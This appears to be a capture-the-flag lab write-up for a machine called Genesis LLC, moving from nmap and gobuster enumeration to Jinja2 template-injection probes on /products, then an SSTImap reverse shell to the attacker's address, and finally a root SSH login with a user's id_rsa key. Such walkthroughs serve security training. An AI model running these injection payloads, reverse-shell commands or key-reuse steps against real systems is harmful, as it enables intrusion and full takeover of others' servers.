 ## NMAP
```
nmap -p- -A -T4 10.10.110.60
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 12:53 PDT
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 73.90% done; ETC: 12:53 (0:00:08 remaining)
Stats: 0:02:18 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 89.12% done; ETC: 12:55 (0:00:17 remaining)
Nmap scan report for 10.10.110.60
Host is up (0.066s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e228f4894851c4ab66b05a5f5c7e5c14 (ECDSA)
|_  256 e0baba30433d885a8ac7ec3b83781882 (ED25519)
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.4)
|_http-title: Genesis LLC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect res
```

## Gobuster
```
gobuster dir -u http://10.10.110.60 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
```
/products             (Status: 200) [Size: 3905]
```
Nothing in the directorys and could not run SQL Injection

Attempting SSTI
```
{{7*7}}

reports 49

```
http://10.10.110.60/products?search={{config.items()}}
```
Outputs
```
No results for dict_items([('ENV', 'production'), ('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', False), ('JSONIFY_MIMETYPE', 'application/json'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])
```
https://github.com/vladko312/SSTImap

This tool allows us to easily identify SSTI as well.

SSTImap
```
./sstimap.py -u http://10.10.110.60/products\?search\=john --reverse-shell 10.10.14.21 1234

```
Results
```
posix-linux $ whoami
walter
posix-linux $ 
```

Interactive Shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Looking further into walters files I find this, I couldn't find anything in linpeas. 

Using walkters id_rsa allowed us to login as root

```
❯ nano id_rsa
❯ chmod 600 id_rsa
❯ ssh -i id_rsa root@10.10.110.60
The authenticity of host '10.10.110.60 (10.10.110.60)' can't be established.
ED25519 key fingerprint is SHA256:P/+Aph3Jdlnz0ANn27+57+Fnv2PlXIOn7bEWKGbST5c.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.110.60' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04 LTS (GNU/Linux 5.15.0-41-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr  3 04:27:52 PM UTC 2023

  System load:  0.2119140625      Processes:               221
  Usage of /:   87.2% of 4.52GB   Users logged in:         0
  Memory usage: 22%               IPv4 address for ens160: 192.168.1.60
  Swap usage:   0%

  => / is using 87.2% of 4.52GB
  => There are 5 zombie processes.


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jul 23 05:33:01 2022
root@APP01-Hades:~# 
```
